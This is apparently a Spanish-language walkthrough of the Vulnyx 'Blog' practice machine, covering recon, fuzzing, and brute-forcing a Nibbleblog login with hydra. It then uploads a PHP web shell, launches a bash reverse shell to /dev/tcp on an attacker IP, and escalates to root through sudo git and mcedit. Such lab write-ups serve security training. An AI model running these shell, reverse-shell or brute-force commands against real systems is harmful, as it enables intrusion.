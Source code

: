 ```yaml
---
layout: post
title: "Blog"
date: 2024-04-22 11:55:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Blog </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#blog"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/blog/host.png){:.margin}

**1\.** Vemos los dispositivos en nuestra red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/blog/arp_scan.png){:.margin}

**2\.** Escaneamos puertos abiertos y versión de servicios que corren.

`sudo nmap -p- -sS -T5 -sC -sV --min-rate=5000 --open -n -Pn 192.168.1.10 -oN report_scan`

![img](/notas/public/img/vulnyx/blog/nmap.png){:.margin}

**3\.** Ojeamos el servicio web de apache, vemos al parecer la salida de un comando.

`htt://192.168.1.10/`

![img](/notas/public/img/vulnyx/blog/80.png){:.margin}

**4\.** Hacemos fuzzing de archivos y directorios.
 
 `gobuster dir -u http://192.168.1.10/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster.png){:.margin}

**5\.** Vamos a la nueva ruta, tenemos una página.

`http://192.168.1.10/my_weblog/`

![img](/notas/public/img/vulnyx/blog/my_weblog.png){:.margin}

**6\.** Presionamos `ctrl+u` para ver el código fuente, podemos ver que está a base de Nibbleblog.

![img](/notas/public/img/vulnyx/blog/ctrl_u.png){:.margin}

**7\.** Otra alternativa para ver la estructura de la web.

`whatweb http://192.168.1.10/my:weblog/`

![img](/notas/public/img/vulnyx/blog/whatweb.png){:.margin}

**8\.** Seguimos fuzzeando ahora en la ruta my_weblog.

`gobuster dir -u http://192.168.1.10/my_weblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster_weblog.png){:.margin}

**9\.** Accedemos a admin.php , tenemos un panel login.

`http://192.168.1.10/my_weblog/admin.php`

![img](/notas/public/img/vulnyx/blog/login.png){:.margin}

**10\.** En nibbleblog tenemos una ruta de usuarios.

`http://192.168.1.10/my_weblog/content/private/users.xml`

![img](/notas/public/img/vulnyx/blog/users.png){:.margin}

**11\.** Presionamos f12, revisemos como se tramita el login.

![img](/notas/public/img/vulnyx/blog/headers.png){:.margin}

![img](/notas/public/img/vulnyx/blog/payload.png){:.margin}

**12\.** Hacemos bruteforce al panel login teniendo el usuario.

`hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -F -I`

![img](/notas/public/img/vulnyx/blog/hydra.png){:.margin}

**13\.** Creamos un archivo para subirlo y ejecutar comandos en la url.

`nano shell.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/blog/shell.png){:.margin}

_\- Subimos el archivo._
![img](/notas/public/img/vulnyx/blog/upload.png){:.margin}

**14\.** Si buscamos un exploit para nibbleblog encontramos la [ruta](https://www.exploit-db.com/exploits/38489) donde indica como encontrar nuestro archivo.

![img](/notas/public/img/vulnyx/blog/path.png){:.margin}

**15\.** Nos ponemos en escucha.

![img](/notas/public/img/vulnyx/blog/nc.png){:.margin}

**16\.** Enviamos la reverse_shell al nc.

`http://192.168.1.10/my_weblog/content/private/plugins/my_image/image.php?cmd=bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

_\- Aquí obtenemos la sessión._
![img](/notas/public/img/vulnyx/blog/reverse_shell.png){:.margin}

_\- Obtenemos la conexión._
![img](/notas/public/img/vulnyx/blog/connected.png){:.margin}

**17\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=/bin/bash`

`export TERM=xterm`

![img](/notas/public/img/vulnyx/blog/stty.png){:.margin}

![img](/notas/public/img/vulnyx/blog/stty2.png){:.margin}

**18\.** Revisamos permisos sudo, podemos ejecutar git como admin.

![img](/notas/public/img/vulnyx/blog/sudo_l_admin.png){:.margin}

**19\.** Ganamos acceso como usuario admin.

_\- Buscamos en [GTFobins](https://gtfobins.github.io/#git) como escalar:_

`sudo -u admin git -p help config`

`!/bin/bash`

![img](/notas/public/img/vulnyx/blog/git.png){:.margin}

**20\.** Volvemos a revisar permisos sudo, podemos ejecutar un binario como root.

`sudo -l`

![img](/notas/public/img/vulnyx/blog/sudo_l_root.png){:.margin}

**21\.** Ganamos acceso como usuario root y leemos la flag.

`sudo -u root mcedit`

`F9 -> enter`

`F11 -> enter`  ... _F9 -> U -> enter (alternativo)_

`s -> enter`

![img](/notas/public/img/vulnyx/blog/mcedit.png){:.margin}

![img](/notas/public/img/vulnyx/blog/mcedit2.png){:.margin}

![img](/notas/public/img/vulnyx/blog/flag.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>